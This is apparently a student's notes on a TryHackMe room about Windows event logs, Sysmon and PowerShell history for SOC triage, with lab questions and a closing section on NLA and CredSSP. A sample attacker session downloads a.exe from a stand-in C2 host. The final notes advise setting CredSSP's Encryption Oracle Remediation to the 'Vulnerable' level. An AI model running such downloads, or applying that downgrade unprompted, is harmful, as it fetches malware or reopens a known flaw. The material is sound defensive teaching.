






# Windows Logging for SOC

[Room link](https://tryhackme.com/room/windowsloggingforsoc)


## Task 1: Introduction
SOC analysts spend most of their time triaging alerts and hunting threats - using the logs in SIEM. To tell good from bad, analysts have to know the logs well: how they look, how to interpret them, and what malicious action they indicate. This room begins your long journey into Windows logging - a key skill for any SOC analyst or DFIR professional.

Learning Objectives
- Understand how to find and interpret important Windows event logs
- Learn invaluable for monitoring log sources like Sysmon and PowerShell
- Prepare for using the mentioned logs in SOC-SIM and the following rooms
- Practice your log analysis skills on multiple event log datasets

Recommended Rooms
- Remind yourself the Logs Fundamentals
- Learn and practice Sysmon
- Learn how to query Event Logs
- Know Core Windows Processes

---
---

## Task 2: What Is Logged

**Logging Overview**

Whenever you start a program, create a file, or just log in to your laptop, the event is processed by your OS. Then, the OS can log the event, meaning it'll append a line to some journal, stating the time, action details, and the user behind the action. Every recorded event is called a log, and proper logging ensures that all user and system activity is recorded, thus helping SOC with the following activities:

- **Incident Response**: Logs can show when and how the attack occurred.
- **Threat Hunting**: Logs allow you to search for signs of malicious activity.
- **Alerting and Triage**: Logs are a building block of any alert or detection rule.

**Anatomy of a Log Entry**

Windows is an interesting OS as it has very powerful logging capabilities but requires a lot of knowledge to read and understand the logs. Your first challenge may be to just open the logs, as they are stored in a binary format inside the `C:\Windows\System32\winevt\Logs` folder:


            IMAGE FROM THE BOX


List of **EVTX** files on the left and the content of one of the files on the right that is unreadable since the logs are stored in a binary format

Every EVTX file corresponds to a specific log category. For example, Application Logs contain events logged by user-mode applications like the IIS web server or MS SQL database, and Security Logs capture events like logon attempts, process activity, and user management.

**Reading Event Logs**

We will use Event Viewer for this room, a built-in tool that allows you to view and manage event logs. To open Event Viewer, search for "Event Viewer" using Windows Search or press Win + R, type `eventvwr`, and press Enter. Once the tool is loaded, you may see all system logs parsed, grouped, and ready for analysis:

1. **Log Sources**: Every EVTX file corresponds to a single item on the left panel.
2. **Log List**: Each row you see is a single event that contains a few properties you can sort by:
    - **Keywords**: For some events, indicates if the action was successful or not.
    - **Date and Time**: The timestamp when the event occurred (system time, not UTC!).
    - **Event ID**: A unique number for the event name (e.g. a failed login is always *4625*).
3. **Log Details**: The actual content of the log, in a plaintext or XML format ("Details" tab).
4. **Filters Menu**: Use the "*Filter Current Log*" and "*Find*" buttons to filter the logs.
5. Event Viewer window with four highlighted panels - log sources, list of logs, log details, and filters menu.



**What Is Logged**

There are [over 500](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/) event IDs just for the Security logs and many thousands of various event IDs in total! Still, not all events are logged by default and not all events are properly documented, so in this room we will explore the most helpful logs for daily SOC routines.

---

**Answer the questions below**

- Looking at the last screenshot, which event ID describes a successful login?(Answer format: LogSource / ID, e.g. Application / 8194)

---
---

## Task 3: Security Log: Authentication

**Overview**

As a SOC analyst, you can't know in advance which attack you will be handling tomorrow and which logs you will need to triage. However, out of all Windows logs enabled by default, the Security event log is the one that brings you the most value. Let's start our journey from the two most important Security logs: Successful Logon (*4624*) and Failed Logon (*4625*).

| Event ID | Purpose | Logging | Limitations |
| --- | --- | --- | --- |
| 4624<br>(Successful Logon) | Detect suspicious RDP/network logins and identify the attack starting point | Logged on the lab machine, the one you are trying to access | Noisy. You will see hundreds of logon events per minute on loaded servers |
| 4625<br>(Failed Logon) | Detect brute force, password spraying, or vulnerability scanning | Logged on the lab machine, the one you are trying to access | Inconsistent. The logs have lots of caveats that may trick you into the wrong understanding of the event |

**Structure of *4624***

A typical Windows server can generate tens of login events per minute, and every login event is often comprised of many different fields. Still, you can cover most L1/L2 cases just by checking a few core event fields in the image below. You can also read more about other fields and logon types in the [Event ID Encyclopedia](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624).



A list of key fields to review in the 4624 event:  Logon ID and logon type, username, source IP and hostname

**Usage of *4624*/*4625***

Even experienced IT admins often rely on security experts to distinguish bad from good events, so don't worry if the workbooks below seem complex at first. Take your time and treat this task as fundamental knowledge that you will use in practice for many upcoming rooms!

- **Detect RDP Brute Force:**
    1. Open Security logs and filter for 4625 event ID (Failed login attempts)
    2. Look for events with Logon Type 3 and 10 (Network and RDP logins)
        - For most *modern systems*, the logon type will be *3* (since *NLA* is enabled by default)
        - For *older or misconfigured systems*, the logon type will be *10* (since NLA is not used)
    3. Every event is now worth your attention, but the main red flags are:
        - **Many attempted** users like admin, helpdesk,  and cctv (Indicates password spraying)
        - **Many login failures** on a single account, usually Administrator (Indicates brute force)
        - **Workstation Name** does not match a corporate pattern (e.g. kali instead of THM-PC-06)
        - **Source IP** is not expected (e.g. your printer trying to connect to your Windows Server)

- **Analyse RDP Logons:**
    1. Open Security logs and filter for *4624* event ID (*Successful* logins)
    2. Look for events with Logon Type *10* (*RDP* logins)
        - If *NLA is enabled*, every RDP logon event is preceded by another 4624 with logon type *3*
        - To get a real Workstation Name, you need to check the preceding logon type 3 event
    3. Your red flags are either a preceding brute force or a suspicious source IP / hostname
    4. If you assume that the login was indeed malicious, find out what happened next:
        - Windows assigns a *Logon ID* to every successful login (e.g. *0x5D6AC*)
        - Logon ID is a *unique* session identifier. Save it for future analysis!

---

- Answer the questions below
Open the "Practice-Security.evtx" file on the VM's Desktop.
    - Which IP performed a brute force of the THM-PC?

    - Which user has been breached as a result of the attack?


    - What was the Logon ID of the malicious RDP login?
        Note: The login you are looking for has a Logon Type 10.

---
---

## Task 4: Security Log: User Management

**Overview**

- Hey Michael, is "svc_sysrestore" your account? Never saw it in the user list before
- No, but it's likely some Windows stuff; better not touch it to avoid any problems in future

Above is a typical IT department discussion that often leads to ransomware attacks. However, with some knowledge of authentication and user management events, it is trivial to find out the whole history of any user account. Below is a breakdown of the common event IDs you can use:

| Event ID | Description | Malicious Usage |
| --- | --- | --- |
| 4720 / 4722 / 4738 | A user account was created / enabled / changed | Attackers might create a backdoor account or even enable an old one to avoid detection |
| 4725 / 4726 | A user account was disabled / deleted | In some advanced cases, threat actors may disable privileged SOC accounts to slow down their actions |
| 4723 / 4724 | A user changed their password / User's password was reset | Given enough permissions, threat actors might reset the password and then access the required user |
| 4732 / 4733 | A user was added to / removed from a security group | Attackers often add their backdoor accounts to privileged groups like "Administrators" |

**Structure of User Management Events**

All user management events have a similar structure and can be split into three parts: *who did the action (Subject)*, *who was the target (Object)*, and *which exact changes were made (Details)*:

- **Subject**: The account doing the action. Note the Logon ID field - you can use it to correlate this event with the preceding 4624 login event!
- **Object**: This can be named differently depending on an event ID (e.g. New Account or Member), but it always means the same - the target of the action.
- **Details**: A target group for 4732 and 4733 events, or new user's attributes like full name or password expiration settings for the 4720 event.





**Usage of User Management Events**

Many real breaches involved at least some user manipulation events, for example, [these ransomware actors](https://thedfirreport.com/2023/04/03/malicious-iso-file-leads-to-domain-wide-ransomware/#:~:text=bat%0A2.bat-,The%20script%20pass.bat,-proceeded%20to%20reset) reset all user accounts to a single password to slow down the recovery, and these attackers created a new admin account for persistence. Refer to the workbooks below to learn how to hunt for similar attacks:

- **Hunt for Backdoored Users**:
    1. Open Security logs and filter for 4720 / 4732 event IDs
    2. Manually review every event; your red flags are:
        - No one from your IT department can confirm the action
        - Changes were made during non-working hours or on weekends
        - The subject user's name is unknown or unexpected to you
        (e.g. "adm.old.2008" creating new Windows users)
        - The target user's name does not follow a usual naming pattern
        (e.g. "backup" instead of "thm_svc_backup")
    3. If you confirmed that the action was malicious, find out the login details:
        - Copy the Logon ID field from your 4720 / 4732 event
        - Find the corresponding login event with the same Logon ID
        - Refer to the workbooks from the previous task for further analysis

---

- Answer the questions below
    Continue with the "Practice-Security.evtx" file on the VM's Desktop.

    - Which user was created by the attacker soon after the RDP login?

    - Which two privileged groups was the backdoor user added to?
    (Answer in alphabetical order, e.g. "Administrators, Power Users")

    - Does the Logon ID field match what you saw in the previous task (Yea/Nay)?


---
---

## Task 5: Sysmon: Process Monitoring

**Overview**

- Sarah, have you run any files from the Internet recently?
- Of course not, why? I never open any untrusted files
- Well, your IP is trying to brute-force our production servers

Above is an example of why SOC teams need more detailed logging than just authentication attempts. Even if you know who is breached, you often don't know how. That's where process monitoring comes in handy, and there are two ways to enable it on Windows:

| Event Code | Purpose | Limitations |
| --- | --- | --- |
| 4688 (Security Log: Process Creation) | Log an event every time a new process is launched, including its command line and parent process details | Disabled by default, you need to enable it by following the [official documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing) |
| 1 (Sysmon: Process Creation) | Replace 4688 event code and provide more advanced fields like process hash and its signature | Sysmon is an external tool not installed by default. Check out the Sysmon official page |

**Sysmon vs Security Log**

Sysmon is a free tool from the Microsoft Sysinternals suite that became a de facto standard for advanced monitoring in addition to the default system logs. For this task, we'll jump right into analyzing Sysmon logs but you can learn more about this great tool in another TryHackMe room.

So, if I were to choose between enabling the basic, noisy 4688 event ID or spending some time installing Sysmon to receive more powerful and flexible logs, I would proceed with Sysmon, and you are encouraged to do the same! Once installed, Sysmon logs are found in Event Viewer under Applications & Services -> Microsoft -> Windows -> Sysmon -> Operational.



Comparison screenshot demonstrating the differences between 4688 and Sysmon 1 event IDs

**Sysmon Event ID 1 in Action**

As you can see on the screenshot above, event ID 1 has a lot of different fields, the most important of which can be grouped as:

- **Process Info:** Context of the launched process, including its PID, path (image), and command line
- **Parent Info:** Context of the parent process, very useful to build a process tree or an attack chain
- **Binary Info:** Process hash, signature, and PE metadata. You will need it for more advanced rooms
- **User Context:** A user running the process and, most importantly, Logon ID - same as in the Security logs.

Since almost any attack works on the endpoint level and requires at least some process to be launched to breach the system or exfiltrate the data from it, process monitoring is the most important log source for any SOC team. Use the following workbook to perform a basic analysis of any process launch:

**Analyse Process Launch:**

1. Open Sysmon logs and filter for event ID 1
2. Review the fields from the process and binary info groups. The red flags are:
    - Image is in an uncommon directory like C:\Temp or C:\Users\Public
    - Process is suspiciously named like aa.exe or jqyvpqldou.exe
    - Process hash (MD5 or SHA256) matches as malware on VirusTotal
3. Review the fields from the parent process group. The red flags are:
    - Parent matches red flags from step 2 (suspicious name, path, or hash)
    - Parent is not expected (e.g. Notepad launching some CMD commands)
4. If still in doubt, go up the process tree until you are confident in your verdict:
    - Find the preceding event where ProcessId equals ParentProcessId in your event
    - Analyze it by following steps 2 and 3 (suspicious parent, name, path, or hash)
5. Finally, trace the attack chain by filtering all Security and Sysmon events with the same Logon ID

---

- Answer the questions below

    Open the "Practice-Sysmon.evtx" file on the VM's Desktop.
    - Which web browser does Sarah use to browse the web?


    - Which file did Sarah download from the browser?


    - Which URL was the file downloaded from?
        Note: Use other Sysmon events to find out!


---
---

## Task 6: Sysmon: Files and Network

Overview
As you have seen in the previous task, Sysmon can provide much more than just process creation events. It can log file and registry changes, network connections, DNS queries, and many other crucial events. Furthermore, you can configure what to log and what to skip, unlike with the default logs. This room, for example, uses a popular Florian's config, but you are free to change it to fit your needs. Let's take a look at four more event IDs:

| Event ID | Security Log Alternative | Event Purpose |
| --- | --- | --- |
| 11 / 13 (File Create / Registry Value Set) | 4656 for file changes and 4657 for registry changes, both disabled by default | Detect files dropped by malware or its changes to the registry (e.g. for persistence) |
| 3 / 22 (Network Connection / DNS Query) | No direct alternative, requires additional firewall and DNS configuration | Detect traffic from untrusted processes or to known malicious destinations |

**Structure of Sysmon Events**



Take a look at the screenshot above - although every event ID has its own purpose, the fields highlighted in orange follow the same structure. Also, note that some critical fields, like Logon ID or parent process info, are missing. The logic here is that you use the ProcessId field to find the corresponding event ID 1 (Process Creation) and get the full context there.

**Usage of Sysmon Events**

Although process creation events provide enough context to detect common breach scenarios, additional logs can be vital to reconstruct the full attack chain and ensure nothing is missed. For example, you need network logs to identify where the data was `exfiltrated` to, and registry change logs to check which system configuration was modified by threat actors.

**Analyse Process Activities:**

1. Copy the ProcessId field from the event ID 1
2. Search for other Sysmon events with the same ProcessId
3. Your red flags for network connection events are:
    - Connection to external IPs on port 80 or on non-standard ports like 4444
    - Connection to known malicious IPs (e.g. by checking on VirusTotal)
    - DNS queries to suspicious domains (*.top, *.click, or hpdaykfpadvsl.com)
4. Your red flags for file and registry changes are:
    - Files dropped to staging directories like C:\Temp or C:\Users\Public
    - Dropped file is a script (.bat or .ps1) or an executable file (.exe or .com)
    - Created files or registry keys are used for persistence (soon on it later!)

---

- Answer the questions below
    Continue with the "Practice-Sysmon.evtx" file on the VM's Desktop.
    
    - Which file was created by the downloaded malware to persist on the host?


    - What is the Command & Control server malware connected to?
        (Answer in format IP:Port, e.g. 1.1.1.1:80)


    - Finally, which domain does the malicious IP correspond to?


---
---

## Task 7: PowerShell: Logging Commands

**Overview**

PowerShell is a powerful tool built into Windows that attackers love to abuse. Mainly because it is both trusted and capable of malware download, system discovery, data exfiltration, and even advanced techniques like process injection. However, you won't capture its commands by just using process creation logs like the Sysmon event ID 1. Take a look at the command prompt below:


Commands Entered in PowerShell Terminal

```PowerShell
PS C:\> Get-ChildItem
PS C:\> Get-Content secrets.txt
PS C:\> Get-LocalUser; Get-LocalGroup
PS C:\> Invoke-WebRequest http://c2server.thm/a.exe -OutPath C:\Temp\a.exe
```

Here, the threat actor managed to read a sensitive file, view local users and groups, and even download malware to the Temp directory. Still, you will see a single event ID 1 stating that powershell.exe was launched, with no information about the executed commands.

**How It Works**

Every program has a specific purpose: firefox.exe is a web browser, notepad.exe is a text editor, and whoami.exe simply outputs your username. If you're just browsing the web, you might only create a single Firefox process. However, with every out-of-scope task like RDP access or photo editing, you will have to open new programs and create additional logs.

PowerShell, on the other hand, is a powerful all-in-one tool for managing the system. Once you launch powershell.exe, you can run hundreds of different commands within the same terminal session without creating new processes for each action. This is why Sysmon is not very helpful here, and you'll need to find an alternative logging approach.

**PowerShell History File**

There are at least five methods to monitor PowerShell, each with its own pros and cons. While you can check out the Logless Hunt room and research AMSI and Transcript Logging topics, in this room, we will focus on a simple but effective way to track PowerShell commands - the PowerShell history file:

`C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`


The PowerShell history file is a plain text file automatically created by PowerShell. It simply records every command you type into a PowerShell window and is immediately updated when you press Enter to submit a command:

Screenshot of PowerShell terminal with multiple entered commands, and a screenshot from the history file opened in Notepad showing that all commands were logged to the file



**Key Notes**

The history file is very useful for tracking malicious actions like system discovery or malware download
The history file is created for every user, meaning that you may see five files if there are five active system users
It survives system reboots unless manually deleted and saves all PowerShell commands entered for all time
It does not log command outputs and does not show script content (e.g. when running powershell .\script.ps1)

---

- Answer the questions below
    - Review the Administrator's PS history on the attached VM.
    Which PowerShell command was executed first?

    - When did the Administrator run the first PS command? (Format: April 18, 2025)
    Note: You might need to right-click the history file and open "Properties" to get the answer!

    - Can you find the flag stored in the PowerShell history? (Format: THM{...})
    Note: You might want to check the PS history of other local users!

---
---

## Task 8: Conclusion

Congratulations on completing this room! By learning how to read and correlate logs from multiple sources, you are now better prepared to trace real attacks and detect the threat actors on every Cyber Kill Chain stage.

Key Takeaways
Know how to read 4624 and 4625 event IDs - you'll frequently encounter them in your SOC analyst role
Group the logs by Logon ID and Process ID - a great way to quickly see the attack chain
Learn Sysmon and make sure to use it - it gives you the most context about what's going on
Don't forget about PowerShell logging - its usage in cyberattacks rapidly grows every year

---
---


## NOTES:


> **NLA**
> Network Level Authentication. An RDP pre-authentication layer using CredSSP that validates credentials before the destination allocates session resources. Generates Event 1149 on the destination when the network handshake completes. NLA is the network leg, not credential validation; pair with Security 4624 Type 10 to confirm a session was actually created.

---

> **CredSSP**
> Is a Windows authentication protocol that delegates a user's credentials securely from a client computer to a remote target server over an encrypted TLS channel.

## How CredSSP Works

* Core Function: Facilitates single-sign-on (SSO) and remote authentication, often used in and PowerShell remote management. 
* Underlying Layers: Combines a Transport Layer Security (TLS) encrypted transport channel with the Simple and Protected Negotiate protocol running either Kerberos or NTLM.
* Security Risk: Delegating credentials exposes systems to risks if the remote server is compromised, allowing malicious actors to reuse those credentials across the network.

## Common Errors and Fixes (Encryption Oracle Remediation)

* The Error: RDP connections can fail with "Authentication error. The function requested is not supported" due to a patch mismatch regarding CVE-2018-0886 (Encryption Oracle vulnerability).
* Group Policy Fix: Navigate to Computer Configuration > Administrative Templates > System > Credentials Delegation > Encryption Oracle Remediation, set it to Enabled, and choose Vulnerable protection level.
* Registry Fix: Run Command Prompt as administrator and execute:
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters" /f /v AllowEncryptionOracle /t REG_DWORD /d 2